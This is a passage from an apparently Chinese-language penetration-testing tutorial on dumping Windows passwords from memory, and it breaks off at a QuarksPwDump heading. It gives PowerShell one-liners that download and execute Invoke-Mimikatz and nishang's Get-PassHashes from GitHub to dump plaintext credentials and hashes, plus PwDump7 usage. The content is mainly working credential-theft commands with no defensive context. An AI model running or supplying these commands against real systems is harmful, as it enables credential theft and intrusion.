### 使用PowerShell命令抓取内存中的密码



**读取密码明文(需要管理员权限)**



```
#远程读取      
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds       
#本地导入读取      
Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -DumpCreds
```




![](https://img-blog.csdnimg.cn/20200421192459629.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200421192548146.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**读取密码hash值(需要管理员权限)**



```
#远程读取      
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes       
#本地读取      
Import-Module .\Get-PassHashes.ps1;Get-PassHashes
```




![](https://img-blog.csdnimg.cn/20190621175208620.png)



### PwDump7抓取密码Hash



需要管理员权限



```
PwDump7.exe
```




![](https://img-blog.csdnimg.cn/20200205114723994.png)



### QuarksPwDump抓取密码Hash
